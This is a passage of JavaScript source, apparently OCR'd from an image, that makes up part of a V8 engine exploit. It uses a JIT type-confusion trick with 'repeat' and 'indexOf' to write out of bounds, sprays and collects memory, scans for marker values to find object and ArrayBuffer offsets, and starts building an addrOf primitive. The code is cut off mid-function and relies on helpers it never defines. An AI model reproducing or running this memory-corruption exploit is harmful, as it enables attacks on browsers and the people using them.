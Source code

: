 ```
}

function gc()
{
    for(let i=0;i<0x10;i++)
    {
        new Array(0x1000000);
    }
}

var a = (function (value) {
    if (value) {
        console.log('hello');
    }
});

var objArray = undefined;
var dataBuf = undefined;

function foo()
{
    let b = 'A'.repeat(2**30-25).indexOf('',2**30-25);
    let a = b + 25;
    let c = a >> 30;
    let idx = c * 7; //length
    let oobArray1 = [1.1,2.2,3.3,4.4];
    oobArray1[idx] = i2f(0x202000000000);
    return oobArray1;
}

for (var i=0;i<0x20000;i++) {
   foo();
}

oobArray = foo();
objArray = {m:i2f(0xdeadbeef), target:a};
var ab = new ArrayBuffer(0x200);
gc();gc();gc();

//object element offest
var ObjectIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0xdeadbeef) {
        ObjectIdx = i + 1;
        console.log('obj' + ObjectIdx);
        break;
    }
} 
//object bk offest
var ArrayBufIdx = 0;
for(let i=0; i<maxSize; i++) {
    if(f2i(oobArray[i]) == 0x234) {
        //0x0000023400000000
        ArrayBufIdx = i + 1;
        console.log('bk' + ArrayBufIdx);
        break;
    }
}
//%SystemBreak();

// build addrOf primitive 
function addrOf(objPara)
{
```